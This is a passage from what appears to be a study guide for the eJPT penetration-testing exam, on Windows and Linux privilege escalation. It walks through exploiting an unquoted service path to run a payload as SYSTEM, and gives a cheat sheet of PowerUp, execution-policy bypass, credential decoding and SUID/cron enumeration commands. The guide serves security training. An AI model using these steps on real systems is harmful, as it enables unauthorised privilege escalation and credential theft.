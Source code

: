 ```bash
# Output: root
```

### Example 4: Windows Service Exploitation
```bash
# Phase 1: Service enumeration with PowerUp
Get-ServiceUnquoted
# Output: VulnService with unquoted path found

# Phase 2: Check write permissions
Get-ServiceFilePermission -Name "VulnService"
# Output: Write permissions confirmed on service directory

# Phase 3: Service exploitation
# Create malicious executable and restart service
sc stop VulnService
sc start VulnService
# Output: Service executed malicious payload with SYSTEM privileges
```

---

## 🎯 eJPT Exam Focus

### Essential Skills for eJPT (Critical - 90% Exam Relevance):
- **PowerSploit Usage (35%):** Master PowerUp.ps1 functions and interpretation
- **Linux Cron Job Exploitation (30%):** Primary escalation vector in Linux scenarios
- **Manual Enumeration (20%):** Linux/Windows manual privilege escalation checks
- **Base64 Decoding (10%):** Essential for Windows credential extraction
- **SUID/SGID Exploitation (5%):** Linux SUID binary privilege escalation

### Critical Commands to Master:
```bash
# PowerSploit essentials for eJPT (Windows)
powershell -ep bypass                     # Bypass execution policy (100% exam usage)
. .\PowerUp.ps1                          # Load PowerSploit module (95% exam usage)
Invoke-PrivescAudit                      # Complete privilege escalation audit (90% exam usage)
Get-UnattendedInstallFile                # Find installation answer files (80% exam usage)

# Base64 credential decoding (Windows essential skill)
$password='QWRtaW5AMTI='                 # Store encoded credential
$decoded=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $decoded                            # Display decoded password

# Linux essentials for eJPT
find / -perm -4000 2>/dev/null           # Find SUID binaries
sudo -l                                  # Check sudo privileges
grep -nri "pattern" /path               # Pattern searching
printf 'content' > /path/file           # File modification (when no editors)
find / -name "filename" 2>/dev/null     # File discovery
ls -la /etc/cron*                       # Examine cron directories
```

